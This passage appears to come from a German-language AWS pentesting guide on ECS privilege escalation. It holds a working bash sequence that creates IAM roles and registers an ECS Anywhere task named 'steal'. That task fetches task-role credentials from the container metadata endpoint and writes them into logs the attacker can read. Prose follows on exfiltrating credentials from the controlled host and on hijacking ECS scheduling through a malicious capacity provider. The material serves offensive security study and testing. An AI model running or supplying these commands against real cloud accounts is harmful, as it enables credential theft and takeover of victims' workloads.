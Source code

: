 ```bash
aws iam attach-role-policy --role-name ht-ecs-task-exec --policy-arn arn:aws:iam::aws:policy/service-role/AmazonECSTaskExecutionRolePolicy
aws iam create-role --role-name ht-ecs-task-role \
--assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs-tasks.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
# attach any privileges you want to abuse to this task role

# task def (EXTERNAL launch)
cat > td-external.json << 'JSON'
{
"family": "ht-external",
"requiresCompatibilities": [ "EXTERNAL" ],
"networkMode": "bridge",
"memory": "256",
"cpu": "128",
"executionRoleArn": "arn:aws:iam::<account-id>:role/ht-ecs-task-exec",
"taskRoleArn": "arn:aws:iam::<account-id>:role/ht-ecs-task-role",
"containerDefinitions": [
{"name":"steal","image":"public.ecr.aws/amazonlinux/amazonlinux:latest",
"entryPoint":["/bin/sh","-c"],
"command":["REL=\$(printenv AWS_CONTAINER_CREDENTIALS_RELATIVE_URI); echo CREDS:; curl -s http://169.254.170.2\$REL; sleep 600"],
"memory": 128,
"logConfiguration":{"logDriver":"awslogs","options":{"awslogs-region":"us-east-1","awslogs-group":"/ht/ecs/anywhere","awslogs-stream-prefix":"steal"}}
}
]
}
JSON
aws logs create-log-group --log-group-name /ht/ecs/anywhere || true
aws ecs register-task-definition --cli-input-json file://td-external.json
CI=$(aws ecs list-container-instances --cluster ht-ecs-anywhere --query 'containerInstanceArns[0]' --output text)
aws ecs start-task --cluster ht-ecs-anywhere --task-definition ht-external \
--container-instances $CI
```
6) Ab hier kontrollierst du den Host, der die Tasks ausführt. Du kannst task logs (wenn awslogs) lesen oder direkt auf dem Host per exec zugreifen, um credentials/data aus deinen Tasks zu exfiltrate.



#### Befehlsbeispiel (Platzhalter)




### Hijack ECS Scheduling via Malicious Capacity Provider (EC2 ASG takeover)

Ein Angreifer mit Berechtigungen, ECS capacity providers zu verwalten und Services zu aktualisieren, kann eine EC2 Auto Scaling Group unter seiner Kontrolle erstellen, diese in einen ECS Capacity Provider einbinden, ihn dem Ziel-Cluster zuordnen und einen Opfer-Service so migrieren, dass er diesen Provider verwendet. Die Tasks werden dann auf vom Angreifer kontrollierten EC2-Instanzen geplant, was OS-Level-Zugriff erlaubt, um Container zu inspizieren und task role credentials zu stehlen.
